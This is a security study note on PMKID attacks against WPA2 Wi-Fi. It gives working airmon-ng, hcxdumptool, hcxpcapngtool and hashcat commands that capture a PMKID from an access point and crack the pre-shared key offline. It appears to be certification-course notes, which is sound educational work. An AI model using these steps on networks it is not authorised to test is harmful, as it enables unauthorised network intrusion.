

# PMKID Attacks
`PMKID` attacks exploit a vulnerability in the [WPA2](../../networking/wifi/WPA-WPA2.md) authentication process, specifically in the RSN (Robuset Security Network) handshake. During the RSN handshake, a [PMKID](../../networking/wifi/WPA-WPA2.md#PMKID) is generated using the `PSK`. Once the `PMKID` is created, its included in the *first frame of the handshake*.

An attacker who captures the frame containing the `PMKID` can perform offline brute force attacks to derive the PSK.
## PMKID Generation

## Attacking
For this attack to work, the network has to be configured in a way that allows a client to *request the `PMKID` from the AP*. In vulnerable networks, the `PMKID` can be requested during *reauthentication*. 

The attack is called "clientless" because it *does not require any clients to be connected to the network*. 
### Steps
#### 1. Make sure the interface is in monitor mode
```bash
sudo airmon-ng start wlan0
```
#### 2. Capture the `PMKID`
You can use `hcxdumptool` to capture a `PMKID` from the AP:
```bash
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1
```
#### 3. Convert to a hashcat format
Once you have the `pcapng` file, you need to *convert it to a format hashcat can use*. You can do so with the `hcxpcapngtool` tool:
```bash
sudo hcxpcapngtool -o capture.22000 capture.pcapng
```
#### 4. Crack the `PMKID`
Once you have the right format for [hashcat](../../cybersecurity/TTPs/cracking/tools/hashcat.md), you can crack with the following command:
```bash
sudo hashcat -m 22000 -a 0 capture.22000 /path/to/dictionary.txt
```
### Other tips
Other tools simplify the process of capturing handshakes, like `airgeddon`. Additionally, `aircrack-ng` can be used to analyze the capture file (`.cap`) *to see if it contains a handshake or `PMKID`*:
```bash
aircrack-ng file.cap
```
The output should look something like this:


> [!Resources]
> - [Wifi Challenge Academy](https://academy.wifichallenge.com/courses/take/certified-wifichallenge-professional-cwp/texts/57442980-introduction)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
